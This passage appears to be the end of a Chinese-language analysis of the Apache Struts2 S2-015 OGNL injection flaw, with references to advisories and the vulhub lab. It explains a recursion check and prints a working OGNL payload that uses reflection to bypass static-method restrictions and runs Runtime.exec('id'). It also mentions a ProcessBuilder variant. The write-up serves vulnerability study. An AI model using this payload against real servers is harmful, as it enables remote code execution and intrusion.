 ```java

pos = (left != null && left.length() > 0 ? left.length() - 1: 0) + (middle != null && middle.length() > 0 ? middle.length() - 1: 0) + 1;
```

> middle就是url的值,在递归的情况下,pos会是url的长度,indexof搜索会失败,从而loopCount + 1 导致递归深度验证失败

```java
int start = expression.indexOf(lookupChars, pos);
if (start == -1) {
    loopCount++;
    start = expression.indexOf(lookupChars);
}
```

## 总结

> ongl表达式好复杂,...translateVariables()这个方法太强了,大多数漏洞都与它有关.

> 在Struts 2.3.14.1-Struts 2.3.14.2的更新内容中,删除了SecurityMemberAccess类中的 setAllowStaticMethodAccess方法,所以2.3.14.2版本后不能直接通过#_memberAccess['allowStaticMethodAccess']=true来修改其值达到重获静态方法调用的能力.

可以用kxlzx提到的调用动态方法(new java.lang.ProcessBuilder('calc')).start()来解决,还可以借助Java反射机制去间接修改:

```java
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

> 相对应的payload如下:

```java
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

## 参考

> <https://mp.weixin.qq.com/s/npm87uV1eIBHr0OexQFs1w>

> <https://blog.0kami.cn/2020/05/22/java-talk-about-struts2/>

> <https://cwiki.apache.org/confluence/display/WW/S2-015>

> <https://aluvion.gitee.io/2020/07/24/struts2%E7%B3%BB%E5%88%97%E6%BC%8F%E6%B4%9E-S2-015/>

> <https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md>
